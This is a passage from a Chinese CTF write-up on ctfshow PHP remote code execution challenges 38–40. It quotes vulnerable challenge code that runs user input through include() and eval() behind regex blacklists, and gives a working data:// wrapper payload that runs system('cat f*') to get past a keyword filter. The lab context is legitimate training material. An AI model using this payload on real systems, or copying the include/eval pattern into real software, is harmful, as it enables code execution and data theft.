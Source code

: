 ![image-20210126155046347](ctfshow-rce/image-20210126155046347.png)

## 38

又过滤php ，file

使用data协议

## 39

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c."php");
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

```
payload c=data:text/plain,<?php system('cat f*')?>
```

 这样就相当于执行了php语句`<?php system('cat f*')?>.php`
 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么作用。

## 40 无参函数绕过

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
} 
```
